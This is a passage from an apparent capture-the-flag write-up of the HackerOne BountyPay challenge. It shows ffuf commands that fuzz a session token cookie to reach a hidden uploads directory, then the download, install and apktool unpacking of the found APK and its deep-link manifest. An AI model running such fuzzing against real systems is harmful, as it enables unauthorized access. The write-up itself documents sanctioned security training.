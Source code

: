 ```bash
cat ./SecLists/Discovery/Web-Content/common.txt | while read line; do ./soft-urls.sh "https://software.bountypay.h1ctf.com/${line}?"; done > fuzz-urls-encoded.txt

ffuf -w fuzz-urls-encoded.txt -u "https://app.bountypay.h1ctf.com/statements/?month=04&year=2020" -H "Cookie: token=FUZZ" -fw 5
```
 
One of the responses contained the following data which tells us that directory listing is enabled in `/uploads/` and that there is an APK file there.
```
<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```

I was then able to download the file from https://software.bountypay.h1ctf.com/uploads/BountyPay.apk.

## Android Application Reverse-Engineering Challenge
I started by installing the application on a local [Android Studio](https://developer.android.com/studio) emulator.

```bash
# Install an apk from the CLI
adb install BountyPay.apk
```
Then once I clicked the money bag button at the bottom of the app I saw the following notification:
{F860987}
Deep links? Hmm, okay! **Let's open up the code.**

In order to start reverse-engineering the application, I used multiple tools and techniques which will now be explained.
I used [Apktool](https://ibotpeaches.github.io/Apktool/) to unpack the APK file. Once the APK is unpacked we can investigate things like the manifest file and look for hard-coded strings.

After  I searched for hard-coded strings like URLs, tokens, and API keys without success, I moved on to investigating the deep-links.
This is how the deep-links definition looks like in the BountyPay app:

```java
        <activity android:label="@string/title_activity_congrats" android:name="bounty.pay.CongratsActivity" android:theme="@style/AppTheme.NoActionBar"/>
        <activity android:label="@string/title_activity_part_three" android:name="bounty.pay.PartThreeActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="part" android:scheme="three"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/title_activity_part_two" android:name="bounty.pay.PartTwoActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="part" android:scheme="two"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/title_activity_part_one" android:name="bounty.pay.PartOneActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
```